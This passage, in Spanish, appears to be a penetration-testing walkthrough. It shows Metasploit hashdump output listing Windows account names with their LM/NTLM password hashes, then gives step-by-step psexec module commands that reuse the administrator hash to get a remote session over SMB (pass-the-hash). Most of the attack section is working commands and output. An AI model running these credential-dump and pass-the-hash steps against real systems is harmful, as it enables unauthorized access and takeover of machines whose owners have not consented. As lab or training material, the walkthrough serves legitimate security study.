 ```

RID  : 000003e8 (1000)
User : diseo
  Hash NTLM: b1f702c125f162ed66636c7d825429e2
```

```shell
hashdump
```

Info:

```
Administrador:500:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
diseo:1000:aad3b435b51404eeaad3b435b51404ee:b1f702c125f162ed66636c7d825429e2:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> Hash NTLM

```
Administrador = 7ce21f17c0aee7fb9ceba532d0546ad6
diseo = b1f702c125f162ed66636c7d825429e2
```

> Hash LM y NTLM

```
Administrador = aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6
diseo = aad3b435b51404eeaad3b435b51404ee:b1f702c125f162ed66636c7d825429e2
```

## Conectarnos por SMB con los hashes

```shell
search psexec
```

Seleccionamos el exploit.

```shell
use exploit/windows/smb/psexec
```

Configuramos el exploit, añadiendo el usuario y los hashes LM y NTLM como contraseña del administrador y el target el que veis.

```shell
set RHOSTS <IP>
set SMBUser Administrador
set SMBPass aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6
set target Native\ upload
```

Ejecutamos el exploit.

```shell
exploit
```
